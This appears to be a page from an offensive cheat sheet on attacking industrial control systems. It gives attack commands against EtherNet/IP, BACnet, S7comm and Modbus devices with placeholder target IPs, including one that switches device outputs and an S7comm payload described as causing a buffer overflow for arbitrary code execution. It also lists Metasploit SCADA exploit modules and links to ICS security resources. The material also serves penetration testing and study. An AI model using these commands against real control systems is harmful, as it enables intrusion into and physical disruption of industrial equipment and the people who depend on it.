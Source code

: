 ### EtherNet/IP

This command targets the EtherNet/IP protocol used in industrial control systems and attempts to send a command to turn on a specific output on the target device.

```
"python enip-exploit.py -i <target IP> -o 3 -v 1"
```

### BACnet 


This command targets the BACnet protocol and attempts to read a value from a specific object on the target device, which can provide information that could be used in further attacks.

```
"bacnet_scan.py -ip <target IP> -p 47808 -d 4194303 -a 1 -t 0"
```

### S7comm


This command targets the S7comm protocol used in Siemens PLCs and sends a crafted payload to cause a buffer overflow and execute arbitrary code on the target device.


```
"python S7comm_payload.py <target IP> 102 --payload 1 --offset 14"
```

### Exploitation

S7comm exploit

```
use exploit/windows/scada/s7comm_plus_wincc_opc
```

Modbus exploit

```
use exploit/windows/scada/modbus_write_registers
```

### PCTRAN

RDS server content

```
cat cpub-iexplore-QuickSessionCollection-CmsRdsh.rdp
```


### resources

-	https://github.com/hslatman/awesome-industrial-control-system-security
-	https://www.b-sec.net/en/assessment/
-	https://github.com/rezaduty/awesome-ics-writeups




{% include links.html %}
